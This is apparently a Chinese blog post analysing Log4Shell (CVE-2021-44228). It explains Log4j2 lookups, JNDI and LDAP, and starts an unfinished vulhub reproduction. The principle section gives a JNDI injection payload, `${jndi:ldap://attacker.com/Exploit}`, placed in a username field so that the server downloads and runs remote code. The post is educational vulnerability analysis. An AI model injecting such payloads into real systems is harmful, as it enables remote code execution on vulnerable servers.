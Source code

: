 ```yaml
---
title: 漏洞分析之 CVE-2021-44228
date: 2025-04-11 14:36:00
tags: [Web, 渗透]
categories: 渗透
---
```


Log4j2 核弹级漏洞，时隔四年的复现。
<!--more-->

## 前言

当时这个漏洞出来的时候各种公众号关于这个的稿子满天飞，但是一直是个守法好公民，也没想着拿去梭两把。

虽然现在对 Java 不怎么熟悉，但是还是想挑战下自己，觉得会挺有意思的。

## 前置知识

### Log4j2 的日志记录功能

第一次看到 Log4j 可能会有点奇怪 —— 怎么叫这名
但是如果说这个是 Log for Java 的谐音的话，那一切就合理了
Log4j2 也不难理解，就是 Log4j 的第二个版本，就跟 python2 和 python3 一样，最早其实也是有 python 1.x 版本的，但是 python2 从 2000 年就开始推行，所以没人认识 python1.x 而已。

### Lookup 功能的设计缺陷

Log4j2 支持一种名为 Lookup 的功能，允许在日志中插入动态内容，比如环境变量、系统信息等。
其语法为 `${...}`，例如 `${java:version}` 会被替换为当前 Java 版本，听起来有点 SSTI 那味了。

### JNDI

JNDI，全称 Java Naming and Directory Interface，Java 命名和目录接口，是 Java 提供的一种 API，用于访问命名和目录服务。
没接触过的读者看到这行字可能会心想：叽里咕噜说什么呢
但是问题不大，我也没看懂。
我们只需要大概理解成**给他一个名字，他就能找到你想要的东西**就行了，类似 Python 里的字典。

### LDAP

LDAP，全称 Lightweight Directory Access Protocol，轻量级目录访问协议，是一种用于访问和维护分布式目录信息服务的协议。
如果这个也不看懂，那也没关系，同样类比 HTTP 协议就行了。

## 原理

假设有一个 Java 网站的登录接口记录用输入的用户名，大概意思是这样，代码不一定对：

```java
logger.error("登录失败，用户名：" + username);
```

若攻击者提交的用户名为 `${jndi:ldap://attacker.com/Exploit}`，那么

1. Log4j2 会解析 `${jndi:...}`，向 `attacker.com` 发起 LDAP 请求。
2. LDAP 服务器返回一个指向 `http://attacker.com/Exploit.class` 的地址。
3. Java 应用下载并执行 `Exploit.class` 中的恶意代码。

## 复现

受影响的版本 Apache Log4j 2.x <= 2.14.1
使用 [vulhub](https://github.com/vulhub/vulhub) 的 docker 镜像，位于 `/log4j/CVE-2021-44228`

```bash
docker-compose up -d
```

启动一下（每日热知识：`-d` 是 `--detach` 的缩写，表示在后台运行容器）

试了好久那个 dnslog 都不行，

## 参考

[log4j2漏洞CVE-2021-44228复现笔记(纯步骤过程，没有复杂的知识点)](https://blog.csdn.net/qq_41132792/article/details/124952616)
[跟个风，聊一聊这两天很火的Log4j核弹级漏洞](https://baijiahao.baidu.com/s?id=1718842142014280135)
